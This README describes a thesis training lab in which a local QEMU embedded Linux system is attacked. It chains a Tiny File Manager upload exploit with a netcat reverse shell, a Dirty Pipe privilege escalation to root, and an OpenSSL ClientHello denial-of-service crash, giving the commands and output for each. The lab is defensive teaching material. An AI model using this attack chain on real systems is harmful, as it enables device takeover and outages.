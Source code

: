 # Analysis of attack vectors for embedded Linux
Git Repository for my Bachelor Thesis "Analysis of attack vectors for embedded Linux"

The goal of this bachelor thesis was to create a training course that would give developers a brief insight into how quickly security vulnerabilities can sometimes be exploited. Unpatched systems can often be very easily taken over or crippled by exploits found on the Internet. To this end, the information gathered in this thesis is to be provided as training. The training is primarily intended for embedded system developers but can be applied to the entire Linux environment. 

The schedule and necessary data for the training can be found in my personal git repository at: https://github.com/FeFi7/attacking_embedded_linux 

Likewise, all patches and layers are provided that the Poky distribution can be extended or changed independently. This includes the layers used as well as the changes to the Poky version used with the status of the checkout 0447aace57d46c4de4d120b430384e99fc3a5e0c used in this thesis.

## Preparation for the training
To be able to carry out the training, a few things have to be prepared. The first step is to ensure that a Linux machine is available as the basic system. This can be any Linux distribution. The commands will be executed using an Ubuntu distribution. First all dependencies have to be installed. This includes qemu, qemu-system. These can be installed with the following commands:

>$ sudo apt-get install qemu 
>
>$ sudo apt-get install qemu-system

Furthermore, the Go ("Golang") programming language must be installed. We achieve this with the help of:
>$ sudo apt install golang-go

Alternatively, wget can be used to download the appropriate package and then install it. 
(wget https://golang.org/dl/go1.17.linux-amd64.tar.gz)

Install curl and jq.

>$ sudo apt-get install curl
>
>$ sudo apt-get install jq

:warning:Because the root file system of the Poky distribution created in this thesis exceeds the 100MB one need to install the GIT extension lfs (Large File Storage).:warning: 

This can be installed as follows:
>$ sudo apt-get install git-lfs 

or alternatively via https://git-lfs.github.com/. To do this, the following steps must be performed:
>$ curl -s https://packagecloud.io/install/repositories /github/git-lfs/script.deb.sh | sudo bash 


The extension must also be used for the repository clone:
>$ git lfs clone https://github.com/FeFi7/attacking_embedded_linux.git 


## Training materials
For the training let's imagine the following scenario: An embedded Linux software developer wants to develop a NAS system. The Tiny File Manger version from chapter 4.3 is installed on it and the system is to be taken over. We got the admin login data for the system through social engineering, or we know that the default configuration has not been changed. In any case, this login data is available to us. The goal is to combine the attacks in such a way that we create a reverse remote shell on the target and use the dirtypipe attack to gain root privileges. In the second step, the web server can be taken down by a DoS attack. This should show how a system can be weakened or taken over. Individual security vulnerabilities may not be bad, but the attack chain used with the combination of security vulnerabilities can lead to a complete takeover of the system. 
Follow all requirements for installation. After the Git repository has been successfully cloned, one need to change to this directory:
>$ cd attacking_embedded_linux/poky

In this directory the startup script is located, which boots the poky distribution. This can be started with the following command:
>$ sudo ./start.sh

Now one must wait until the QEMU has completely booted the distribution and the login prompt appears. As soon as the boot process has been completed, it can be tested with the help of a web browser whether the necessary pages are accessible, for this the following pages must be called:
Lighttpd: https://127.0.0.1:8443
Tiny File Manager Application: https://127.0.0.1:8443/tinyfilemanager.php 
Note: The self-signed certificate must be confirmed the first time it is accessed. 

The login credentials for the necessary applications are:

poky Login: hansolo Password: felix

Tiny File Manager: admin Password: admin@123

After ensuring that all requirements have been installed and the applications are working properly, the first attack can begin.
The first attack involves a combination of the CVE-2021-40964 to get a remote shell on the target system and the execution of an exploit for the CVE-2022-0847 to get root privileges on the system. For this, two shells should be opened on the host system. In the first shell we start netcat with the following command:  
>$ nc -nvlp 9001

In the second terminal we move to the exploit directory of the Tiny File Manager with the command:
>$ cd ../exploits/CVE-2021-40964-tinyfilemanager

This directory contains the exploit to log in to the Tiny File Manager application and upload the shell PHP script. This is executed as follows:
>$ ./exploit.sh https://127.0.0.1:8443/tinyfilemanager.php admin “admin@123”

In the other terminal window, the reverse shell now opens and we have access to the webroot directory of the lighttpd. This can be checked with the following command:
>$ ls -l

To execute the dirtypipe exploit and obtain root rights, the corresponding exploit must be uploaded via the web interface. To do this, the login process must be carried out via the web interface https://127.0.0.1:8443/tinyfilemanager.php with the login credentials 

Login: admin and Password: admin@123. 

Then one has to click on the upload button in the upper right corner and the upload mask will open. With a click in the white area a file explorer opens, where the exploit must be selected. This exploit has the following path: 
>attacking_embedded_linux/ exploits/ CVE-2022-0847-dirtypipe/exploit_bl4sty

Clicking on the Back button returns one to the overview of the files. It is recommended to check whether the exploit was successfully uploaded in the terminal by executing the remote shell. The following command must be executed for the exploit to be executable:
>$ chmod +x exploit_bl4sty

Before the exploit is executed, it should be checked under which user the shell is currently executed. To do this, the command "id" can be typed into the command line. The feedback appears:
>$ uid=33(www-data) gid=33(www-data) groups=33(www-data)

To gain root privileges, the exploit must be executed as follows:
>$ ./exploit_bl4sty /bin/su

Note: After executing the exploit, no new prompt appears only an empty new line.

It is checked whether the exploit was successful. To do this, the command "id" can be executed again in the command line. The feedback message appears:
>$ uid=0(root) gid=0(root) groups=33(www-data)

The system was successfully taken over.
The second attack requires launching the web browser and accessing the following URL: https://127.0.0.1:8443

A static HTML page with the content "Time to shoot the Empire" appears. In a terminal, one must change to the following directory where the exploit is located:
>$ cd attacking_embedded_linux/exploits/CVE-2021-3449-openssl

To execute the exploit, the following command must be run:
>$ go run . -host 127.0.0.1:8443

The feedback is provided:
>sending initial ClientHello
>
>connected
>
>sending malicious ClientHello
>
>malicious handshake failed, exploit might have worked: EOF

Furthermore, the message Error in libssl.so appears in the QEMU Terminal. Now it is necessary to switch back to the web browser and reload the page. The page is now no longer accessible and the lighttpd was taken down.
